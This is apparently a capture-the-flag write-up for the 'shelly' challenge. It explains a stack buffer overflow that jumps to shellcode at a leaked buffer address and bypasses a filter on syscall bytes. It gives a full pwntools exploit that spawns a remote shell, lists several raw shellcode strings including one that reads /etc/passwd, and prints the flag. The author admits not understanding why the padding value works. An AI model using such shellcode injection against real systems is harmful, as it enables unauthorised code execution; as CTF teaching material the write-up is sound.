




# shelly

## Problem

<details>

<summary>Description</summary>

sally sells seashells by the seashore sally sells seashells by the seashore sally sells seashells by the seashore sally sells seashells by the seashore sally sells seashells by the seashore sally sells seashells by the seashore sally sells seashells by the seashore sally sells seashells by the seashore

`nc tjc.tf 31365`

</details>

## Solution

<figure><figcaption><p>Checksec result</p></figcaption></figure>

As the name of the challenge suggest and checksec suggest, its going to be a shellcode injection type of attack. However there's a bit of a twist

<figure><figcaption><p>Main decompiled</p></figcaption></figure>

Clearly there's some overflow while buffer only hold 256 bytes, the `fgets()` takes the twice of it. We can calculate the offset to overwrite the RIP by adding the stack buffer with 8 bytes of RBP which equals to 264.  But how do we where and how do we redirect the return to our shellcode?

Notice before it asks us for input, it prints out the address of buffer, which enables us to overwrite the RIP to that buffer where our shellcode resides. Debugging with gdb will proves this as shown below

<figure><figcaption><p>setting breakpoint and giving some input</p></figcaption></figure>

<figure><figcaption><p>address leaked corresponds to our input</p></figcaption></figure>

One complication is that our assembly opcodes is prohibited to contain other than of`\x0f` and`\x05` which corresponds to `syscall`. Where in this case is needed in order to spawn shell. Initially I tried different assembly opcodes that exist in shell storm that doesn't contains said prohibition. But soon I realised that the check only applies to the first 510 of our input, since the prohibited opcodes are located at the last 2 byte of our shellcode, we can fill the buffer with just enough [`asm('nop)`](#user-content-fn-1)[^1] so that the last two byte are at the 511th and 512th byte of our buffer respectively.&#x20;

I initially calculated the amount of padding required to do this by `(`[`512`](#user-content-fn-2)[^2] `-` [`264` ](#user-content-fn-3)[^3]`-` [`len(shellcode)`](#user-content-fn-4)[^4]`)` to perfectly allocate the prohibited bytes at the last two bytes so it will go unchecked. However it doesn't seem to work, after some tweaking It works by providing `500` instead of `512` as our maximum input. I don't quite understand why, does anyone know why?  &#x20;

To build our payload firstly we need to overwrite the RIP with the address of `buffer + 0x110` (or `272 (264 offset + 8 RIP)` in decimal). This is because if we jump straight to Initial address of buffer, there will be the address of our desire between the asm('nop') and our shellcode which is not a valid instruction so we have to skip over that. Here's a diagram I create to better visualise

<figure><figcaption><p>Stack alignment after buffer overflow</p></figcaption></figure>


```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host = "tjc.tf"
port = 31365

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(host, port, *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
break *0x40124b
'''.format(**locals())

io = start()

# =========================================================
#                         EXPLOITS
# =========================================================
offset = 264
padding = (500 - offset)

jump = p64(int(io.recvline()[2:-1].decode(), 16) + 0x110)
# shellcode = b'\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'
# shellcode = b'\x4d\x31\xc0\x41\xb1\x3c\xeb\x1a\x58\x48\x31\xc9\x48\x31\xdb\x8a\x1c\x08\x4c\x39\xc3\x74\x10\x44\x30\xcb\x88\x1c\x08\x48\xff\xc1\xeb\xed\xe8\xe1\xff\xff\xff\x74\x0d\xfc\x74\xbf\xfc\x4d\x74\x0d\xc3\x74\x0d\xca\x33\x39\xd7\x2e\x74\x0d\xfc\x74\xbf\xfc\x07\x63\x74\x0d\xee\x6e\x6b\x74\xb5\xda\x33\x39\xd4\xd5\xc3\xc3\xc3\x13\x5e\x55\x52\x13\x46\x4f\x54'
# shellcode = b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'
# shellcode = b'\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
# shellcode = b'\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41'
shellcode = asm(shellcraft.sh())

payload = flat(
    asm('nop') * offset,
    jump,
    asm('nop')  * (padding - len(shellcode)), 
    shellcode
)

io.sendline(payload)

io.interactive()
```


## Flag

> _**tjctf{s4lly\_s3lls\_s34sh3lls\_50973fce}**_

[^1]: basically an instruction that does nothing and will let us 'slide' down towards our shellcode

[^2]: Buffer size

[^3]: offset to overwrite RIP

[^4]: length of our shellcode
